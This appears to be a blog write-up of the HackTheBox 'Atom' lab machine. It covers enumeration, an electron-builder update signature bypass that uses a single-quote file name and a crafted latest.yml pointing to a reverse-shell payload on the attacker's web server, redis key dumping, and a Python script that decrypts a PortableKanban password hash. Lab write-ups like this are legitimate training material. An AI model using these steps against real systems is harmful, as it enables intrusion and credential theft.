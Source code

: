 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

----------------------------------------------------------------------------------------------------

### ENUMERATION

We kick it off with a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)

A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)

We start off by checking port 80:

We find a possible uname at th end of the page : MrR3boot@atom.htb.

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)

I renamed the file to d'payload.exe

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)

- Calculate the hash using the prescribed syntax : 

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)

- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using:

`sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)

Congrats We now have a reverse shell. 

A getuid command shows we are ATOM\jason.

Great!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)

Run it...

Details found :

- jasons creds :

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)

Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)

We found the pass for redis. 

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)



**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:
`redis -h 10.10.10.237`

- Authenticate using the password:
`auth pass`

- Retrive info on the keyspace using:
`info keyspace`

- We see that there is one db - number 0 which has 4 keys.
View the keys by:
`keys *`

- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:
`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)


- We now have the administrator hash ! Awesome!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * 

#python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)

We now finally have the password of admin. 

Lets try winrm again using these creds.... 


![Image](https://github.com/m3rcer/m3rcer.github.io/blob/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

 _Bookmark to recieve the latest writeups!_

----------------------------------------------------------------------------------------------------





